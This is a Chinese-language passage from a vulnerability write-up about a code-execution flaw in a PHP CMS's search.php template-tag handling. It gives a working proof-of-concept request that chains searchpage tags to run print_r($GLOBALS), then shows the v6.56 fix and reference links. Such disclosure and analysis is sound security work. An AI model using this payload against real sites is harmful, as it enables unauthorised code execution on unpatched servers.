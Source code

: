很明显的黑名单过滤，只是简单得过滤了下常用的危险命令， 但因为前面参数还有addshalshes函数和remoteXSS函数的过滤，导致这里不太好利用， freebuf上面已经有大佬公布了利用方式，利用$_SERVER变量任意代码执行，具体细节看参考链接,这里我只是执行一个简单的输出命令来证实一下代码执行漏洞,

poc如下:


    searchtype=5&searchword={if{searchpage:year}&year=:p{searchpage:area}}&area=r{searchpage:letter}&letter=int{searchpage:lang}&yuyan=_r({searchpage:jq}&jq={searchpage:ver}&&ver=$GLOBALS)
    
最后代码执行的是print_r($GLOBALS)函数，成功打印出了$GLOBALS参数的值.

### v6.56 

该版本除了黑名单还在search.php中添加了如下一句话:

```php
//感谢freebuf文章作者天择实习生（椒图科技天择实验室）的漏洞报告
if(strpos($searchword,'{searchpage:')) exit; 
```

这样，就让searchpage标签的替换都失效了，个人认为这种修复方法也不是很好，但目前没有找到可利用的其他标签， 该版本目前暂时解决了代码执行漏洞的问题

参考：
http://www.freebuf.com/vuls/150042.html
http://www.freebuf.com/vuls/150303.html
https://www.seebug.org/vuldb/ssvid-92744